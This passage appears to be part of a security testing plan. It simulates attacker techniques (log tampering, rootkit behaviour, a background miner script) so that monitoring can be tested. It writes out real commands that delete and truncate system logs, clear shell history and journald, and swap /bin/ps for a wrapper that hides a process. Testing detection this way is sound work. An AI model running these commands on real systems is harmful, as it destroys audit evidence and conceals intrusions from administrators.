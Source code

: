```bash

chmod +x /tmp/miner.sh
/tmp/miner.sh &
```

### 5.2 Log Tampering Simulation

**Objective**: Test log integrity monitoring
**MITRE Technique**: T1070.002 (Clear Linux or Mac System Logs)

```bash
# Log deletion attempts
rm /var/log/auth.log.1 2>/dev/null
truncate -s 0 /var/log/apache2/access.log 2>/dev/null

# Log modification attempts
echo "fake log entry" >> /var/log/syslog 2>/dev/null

# Clear command history
history -c
rm ~/.bash_history 2>/dev/null

# Clear system logs
journalctl --rotate
journalctl --vacuum-time=1s 2>/dev/null
```

### 5.3 Rootkit Simulation

**Objective**: Test rootkit detection
**MITRE Technique**: T1014 (Rootkit)

```bash
# Hidden file creation
mkdir /tmp/...  # Hidden directory with dots
touch /tmp/.hidden_file

# Process hiding simulation
mv /bin/ps /bin/ps.orig 2>/dev/null
cat > /bin/ps << 'EOF'
#!/bin/bash
/bin/ps.orig "$@" | grep -v "malicious_process"
EOF
chmod +x /bin/ps 2>/dev/null

# Network hiding simulation
iptables -A OUTPUT -p tcp --dport 4444 -j DROP 2>/dev/null
```

---

## Detection and Analysis

